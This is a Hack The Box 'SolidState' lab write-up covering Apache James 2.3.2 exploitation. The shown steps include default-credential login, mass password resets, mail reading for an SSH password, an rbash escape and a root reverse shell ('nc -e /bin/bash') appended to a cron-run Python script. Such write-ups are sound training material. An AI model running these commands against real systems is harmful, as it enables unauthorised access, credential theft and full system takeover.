# SolidState

## Reconnaissance

### nmap 
```
nmap -sV -sC -oA solidstate 10.129.206.76
```



### website



### smtp 

- Connect to smtp by telnet
- An useful information is the smtp response "James SMTP Server 2.3.2"
```
telnet 10.129.206.76 25
```


### pop3

- It is not possible to read mail without user/password


### nntp

- According to nmap result, check the port 119 -> nntp
- Connect by nc 
```
nc -nv 10.129.206.76 119
```


- Available command as follow:


- About above information, research "James SMTP Server".

1. Find a lot of exploit-related article, [this one](https://vk9-sec.com/apache-james-server-2-3-2-cve-2015-7611/) provide some hint.

    - It shows the nmap result is similar to me.
    - But there is one more port(port 4555 called JAMES REMOTE ADMIN 2.3.2)

    

2. And keep research about James SMTP Server 2.3.2 exploit I found another [article](https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf)



3. So, with previous 2 articles, I first research about James Remote Admin.Them I found this installation guideline which prove that the James Remote admin is one of the James SMTP Server's component after installing. [JamesQuickstart - Installation Information](https://cwiki.apache.org/confluence/display/JAMES2/JamesQuickstart)


4. Then, I also find this configuration list - [James Server Configuration](https://james.apache.org/server/archive/configuration_v2_0.html), it shows the James Remote admin need credential to login, and the default is root / root.

>Under James Server Configuration, there is a configuration called "Remote Manager Configuration". 



- So, I execute nmap again with all ports.
- And the result has displayed as follow, but the protocol seems can't be analysis.
```
nmap -sV -sC -p- -A -oA solidstate2 10.129.206.76
```




## Exploit

- Using telnet to connect to james_admin service
- It will ask about credential (default: root/root)
```
telnet 10.129.206.76 4555
```


- Check usage
```
help 
```


- Check user
```
listusers
```


- Interesting things is this user 
```
../../../../../../../../etc/bash_completion.d
```
- It looks like some payload, and I think that might caused by the metasploit (linux/smtp/apache_james_exec)which I just run 


- Or python code(35513.py from exploitDB) which I just run


- Let's dig more information from james_admin server
- From listusers, I know there are other user for mail server
```
james
thomas
john
mindy
mailadmin
```
- According the useage, I have command to reset those user's password
```
setpassword <username> <newpassword>
```


- So, I can set password for all user.
```
setpassword james james123
setpassword john john123
setpassword thomas thomas123
setpassword mindy mindy123
```


```
setpassword mailadmin mailadmin123
```


- Using telnet to connect to pop3 service
```
telnet 10.129.206.76 110
```


- Check Every user
```
USER james
PASS james123
list
```


```
USER john
PASS john123
list
```


```
RETR 1
```


```
USER thomas
PASS thomas123
list
```


```
USER mailadmin
PASS mailadmin123
list
```


```
USER mindy
PASS mindy123
```


```
list
```


```
RETR 1
```


```
RETR 2
```


- I got mindy's ssh credential from second mail
```
mindy / P@55W0rd1!2@
```

- SSH login by mindy


- Check user --> failed
```
id 
```


- The error reason is the shell is not ```/bin/bash```, it's rbash 


- And It doesn't provide ```chsh ``` to change.


- But I still have permission to read user flag, and the cat command still works
- Get user flag: ``` 74786f759c0406f0019727f309bf2128 ```




## Post Exploitation 

- I noticed this message after I login ssh with mindy's credential 


- I think those informations are generated from the payload I just put by metasploit.


- So I tried again metasploit, and re-login ssh, but it still failed.

- Then the second weird things is the bash script, after I login, I only can execute ```cat ``` and ``` ls ```
- Then I check other command it will reply 
```
-rbash: XXX: command not found
```
- So I do some research for rbash, then I know rbash is a restricted bash environment.
- But I also know there are some method to bypass it.
- I tried the following command attemp to bypass. --> failed


- The final success one is ```ssh ```, so I logout and re-login again.
```
ssh mindy@10.129.206.76 -t "bash --noprofile"
```


- I escape from rbash, here is prove, I can check user by id command
```
id
```


- But try to check sudo permission still failed
```
sudo -l
```


- Execute linpeas 
- Here are some interesting information

1. osboxes run on localhost --> not useful


2. network status --> port 631 --> IPP(Internet Printing Protocol)
    - It might connect to a printer.


3. Here is an unmounted device


4. CVE-2017-6074


5. Folder owned by mindy


6. some special shell file 
    - bash_competion is upload by the python exploit code

7. Some interesting file upder /opt



### Privilege Escalation

- After many try in other suspcious part, I think the final one for privilege escalation is the python file under /opt
- Check the code: 
- It will remove the content under /tmp


- But I can't find any command to execute this python regularly.
- So, I upload pspy64 --> falied and pspy32.
```
/bin/sh -c python /opt/tmp.py
```


- Privilege Escalation code in python, then wait for about 3-4 min
```
echo "os.system('nc -e /bin/bash 10.10.17.145 1336')" >> /opt/tmp.py
```
- Get reverse shell
- Get root flag: ``` c9109e71b69944ac06de39e4bec51739 ```




## Reference 


- [(Discussion)solidstate](https://forum.hackthebox.com/t/solidstate/91/9)
- [(Writeup)SolidState-1](https://resources.infosecinstitute.com/topic/hack-the-box-htb-machines-walkthrough-series-solidstate/)
- [(Writeup)SolidState-2](https://initinfosec.com/writeups/htb/2020/02/02/solidstate-htb-writeup/)


### Tools

- [pspy](https://github.com/DominicBreuker/pspy)

### nntp

- [Port 119 nntp](https://www.grc.com/port_119.htm)


- [nntp connect](https://cheatsheet.haax.fr/network/services-enumeration/119_nntp/)
- [nntp usage](https://0xffsec.com/handbook/services/nntp/)
- [NNTP Example](http://www.ii.uib.no/~magnus/USENET/paragraph3.2.4.1.1.html)

### James SMTP Server

- [James Server Configuration](https://james.apache.org/server/archive/configuration_v2_0.html)
- [James Server Security list](https://james.apache.org/server/feature-security.html)
- [JamesQuickstart](https://cwiki.apache.org/confluence/display/JAMES2/JamesQuickstart)

### James SMTP Server vulnerability
#### CVE-2015-7611

- [(PDF)(Work in this time)Exploiting Apache James 2.3.2](https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf)
- [Apache James Server 2.3.2 – CVE-2015-7611](https://vk9-sec.com/apache-james-server-2-3-2-cve-2015-7611/)
- [(Article)Exploiting Apache James 2.3.2](https://crimsonglow.ca/~kjiwa/2016/06/exploiting-apache-james-2.3.2.html)
- [Apache James Server 2.3.2 Insecure User Creation / Arbitrary File Write](https://packetstormsecurity.com/files/156463/Apache-James-Server-2.3.2-Insecure-User-Creation-Arbitrary-File-Write.html)
- [Apache James Server 2.3.2 Insecure User Creation Arbitrary File Write - Metasploit](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/linux/smtp/apache_james_exec)
- [(ExploitDB)Apache James Server 2.3.2 - Insecure User Creation Arbitrary File Write (Metasploit)](https://www.exploit-db.com/exploits/48130)


#### RCE 

- [(ExploitDB)Apache James Server 2.3.2 - Remote Command Execution](https://www.exploit-db.com/exploits/35513)
- [(ExploitDB)Apache James Server 2.3.2 - Remote Command Execution (RCE) (Authenticated) (2)](https://www.exploit-db.com/exploits/50347)


### POP3 

- [(HackTricks)POP3](https://book.hacktricks.xyz/network-services-pentesting/pentesting-pop)
### SMTP

- [(HackTricks)SMTP](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smtp)

### rbash
- [rbash](https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html)
- [rbash bypass](https://cloud.tencent.com/developer/article/1680551)
- [SMTP commands](https://www.ibm.com/docs/en/zos/2.3.0?topic=set-smtp-commands)

### IPP
- [631 - Internet Printing Protocol(IPP)](https://book.hacktricks.xyz/network-services-pentesting/pentesting-631-internet-printing-protocol-ipp)


### Linux Command

#### Find

- [Linux find 命令](https://www.runoob.com/linux/linux-comm-find.html)
- [SUID Executables(Using find command to searchh)](https://pentestlab.blog/tag/find/)
- [Linux Privilege Escalation using SUID Binaries](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
- 
#### ps
- [ps(1) - Linux man page](https://linux.die.net/man/1/ps)

## Suspcious Part for Privilege Escalation

- I also find a mDNS software - avahi, and it have a daemon called avahi-daemon will execute the command.


- So the following link is the vulnerability related to avahi 

- [(Github)chroot.c](https://github.com/lathiat/avahi/blob/master/avahi-daemon/chroot.c)
- [CVE-2021-26720](https://cve.report/CVE-2021-26720)
- [Vulnerability of Avahi: privilege escalation via avahi-daemon-check-dns.sh](https://vigilance.fr/vulnerability/Avahi-privilege-escalation-via-avahi-daemon-check-dns-sh-34656)
- [CVE-2021-26720: avahi-daemon: 'avahi' to 'root' user privilege
 escalation through Debian specific if-up script avahi-daemon-check-dns.sh](https://www.openwall.com/lists/oss-security/2021/02/15/2)


###### tags: `HackTheBox` `medium` `linux` `rbash` `restrict bash` `rbash bypass` `smtp` `pop3` `nntp` `Apache james_server` `python privilege escalation`